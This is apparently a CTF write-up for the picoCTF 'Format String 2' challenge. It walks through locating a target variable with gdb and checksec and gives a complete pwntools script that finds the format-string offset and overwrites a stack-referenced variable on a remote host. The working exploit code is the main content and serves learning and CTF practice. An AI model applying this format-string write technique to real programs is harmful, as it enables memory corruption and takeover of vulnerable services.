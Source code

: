 # CTF Write-Up: [Format String 2][Binary Exploitation]

## Description
>This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must change data on the stack!


## Flag
The flag you obtained after solving the challenge. (e.g., `picoCTF{f0rm47_57r?_f0rm47_m3m_d42f4d8d}`)

## Difficulty
- **Difficulty Level:** [medium]

## Tools Used
- pwntools
- gdb

## Write-Up

### Preparatory Phase
We are given the source code `vuln.c` and notice that in order to access the flag we need to set the `sus` variable to `0x67616c66`
![alt text](images/image.png)

I then ran `checksec vuln` to determine the architecture and potential protection measures the binary has:
![alt text](images/image-1.png)

I then read the documentation on pwntools, specifically [format strings](#https://docs.pwntools.com/en/stable/fmtstr.html). My main goal at this stage was to write to the address of `sus` the value `0x67616c66.`

Using gdb I was able to run `info address sus` and learn that it is located `0x404060` at ![alt text](images/image-2.png).

### Attack Phase

1. Use pwntools to determine the offset and payload.
2. Write to the address `0x404060` the value `0x67616c66`
3. Obtain the solution: ![alt text](images/image-3.png)

### Final Solution/Payload
```python
from pwn import *

local = False
host = <insert host>
port = <insert port>
program = './vuln'
context.binary = ELF('./vuln')

if local:
    io = process('./vuln')
else: 
    io = remote(host, port)

def exec_fmt(payload):
    if local:
        io = process('./vuln')
    else: 
        io = remote(host, port)
    io.sendline(payload)
    return io.recvall()

autofmt = FmtStr(exec_fmt)
offset = autofmt.offset
payload = fmtstr_payload(offset, {0x404060: 0x67616c66})
print(payload)

io.recv()
io.sendline(payload)
print(io.recvall())

```

### Lessons Learnt
- Be careful and cognizant of 32-bit and 64-bit architectures as the [calling conventions](#insert__link_to_github) between processors can affect the way we conduct our attacks. 
- pwntools has well established tools to exploit format string vulnerabilities

## References
- https://cs155.stanford.edu/papers/formatstring-1.2.pdf
- https://docs.pwntools.com/en/stable/fmtstr.html



